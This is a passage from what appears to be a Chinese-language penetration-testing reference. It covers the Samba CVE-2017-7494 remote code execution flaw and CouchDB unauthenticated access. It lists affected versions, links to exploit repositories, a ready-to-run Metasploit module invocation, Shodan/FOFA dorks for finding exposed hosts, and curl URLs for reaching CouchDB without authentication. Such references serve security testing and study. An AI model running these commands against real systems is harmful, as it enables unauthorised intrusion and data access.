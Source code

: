 - 影响版本
    - Samba:4.6.5:::
    - Samba:4.6.3:::
    - Samba:4.6.2:::
    - Samba:4.6.1:::
    - Samba:4.6.0:::

- 相关文章
    - [Linux cve-2017-7494samba远程漏洞利用和分析](https://bbs.pediy.com/thread-218114.htm)
    - [Samba 远程命令执行漏洞(CVE-2017-7494)](https://vulhub.org/#/environments/samba/CVE-2017-7494/)

- POC | Payload | exp
    - [joxeankoret/CVE-2017-7494](https://github.com/joxeankoret/CVE-2017-7494)
    - [opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494)

- MSF 模块
    ```bash
    use exploit/linux/samba/is_known_pipename
    set rhost [ip]
    set target 3
    run
    ```

---

# 数据库

**相关工具**
- [SafeGroceryStore/MDUT](https://github.com/SafeGroceryStore/MDUT) - 数据库跨平台利用工具
- [Ryze-T/Sylas](https://github.com/Ryze-T/Sylas) - 数据库综合利用工具
    - https://paper.seebug.org/1836/

## CouchDB

Apache CouchDB 是一个开源数据库，专注于易用性和成为"完全拥抱 web 的数据库"。它是一个使用JSON作为存储格式，JavaScript 作为查询语言，MapReduce 和 HTTP 作为 API 的 NoSQL 数据库。应用广泛，如 BBC 用在其动态内容展示平台，Credit Suisse 用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web 和应用程序）.

> shodan : "product:CouchDB"
> fofa ： app="APACHE-CouchDB"

**未授权访问漏洞**
- 概述

    默认会在 5984 端口开放 Restful 的 API 接口，如果使用 SSL 的话就会监听在 6984 端口，用于数据库的管理功能。其 HTTP Server 默认开启时没有进行验证，而且绑定在 0.0.0.0，所有用户均可通过 API 访问导致未授权访问。

    在官方配置文档中对 HTTP Server 的配置有 WWW-Authenticate：Set this option to trigger basic-auth popup on unauthorized requests，但是很多用户都没有这么配置，导致漏洞产生。

- 利用

    `http://[ip]:5984/_utils/`

    `curl http://[ip]:5984`
